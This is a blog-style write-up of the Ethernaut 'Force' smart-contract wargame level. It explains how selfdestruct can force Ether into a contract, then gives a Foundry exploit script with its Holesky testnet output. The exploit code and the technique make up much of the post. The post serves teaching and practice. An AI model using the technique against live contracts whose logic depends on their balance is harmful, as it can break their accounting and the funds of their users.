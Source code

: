 ```yaml
---
layout: post
title: "Force"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. make the balance of the contract greater than zero

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

[Solidity 0.8.30 Documentation - sending and receiving ether](https://docs.soliditylang.org/en/latest/security-considerations.html#sending-and-receiving-ether)

<aside>
💡

Neither contracts nor “external accounts” are currently able to prevent someone from sending them Ether. Contracts can react on and reject a regular transfer, but there are ways to move Ether without creating a message call. One way is to simply “mine to” the contract address and the second way is using `selfdestruct(x)`.

</aside>

[Solidity 0.8.30 Documentation - deactivate and self destruct](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#deactivate-and-self-destruct)

The `selfdestruct()` function removes code from blockchain.

It move Ether stored in the contract to a specified address without creating a message call.

Even if a contract’s code does not contain a call to selfdestruct, it can still perform that operation using delegatecall or callcode.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Force.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Ex {
    constructor(address payable force_) payable {
        selfdestruct(force_);
    }
}

contract ForceSol is Script {

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        new Ex{value: 1 wei}(payable(0xD38Cdc747b3Fdc5B553ec592a89b92db3015c2e6));

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/ForceSol.sol --broadcast --tc ForceSol
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.001062799 gwei

Estimated total gas used for script: 83584

Estimated amount required: 0.000000088832991616 ETH

==========================

##### holesky
✅  [Success] Hash: 0xfe8f4a467eb59cc75d1969cbcb0338d23b568d91028e387bba6bcebb5c605526
Contract Address: 0xfF2baB3F127feb02B77A4dBd869b25f63d442b79
Block: 3677667
Paid: 0.000000068333210136 ETH (64296 gas * 0.001062791 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000068333210136 ETH (64296 gas * avg 0.001062791 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image getbalance]({{site.url}}/images/2025-04-19-Force/getbalance.png)

![Image complete]({{site.url}}/images/2025-04-19-Force/complete.png)
